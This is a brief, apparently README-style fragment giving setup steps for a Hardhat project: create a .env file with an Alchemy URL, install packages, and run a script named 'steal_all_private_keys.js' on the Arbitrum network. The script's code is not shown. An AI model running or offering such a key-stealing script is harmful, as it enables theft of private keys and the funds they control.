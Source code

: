 Create `.env`. Insert Alchemy url and 

```
npm ci
npx hardhat run scripts/steal_all_private_keys.js --network arb
```
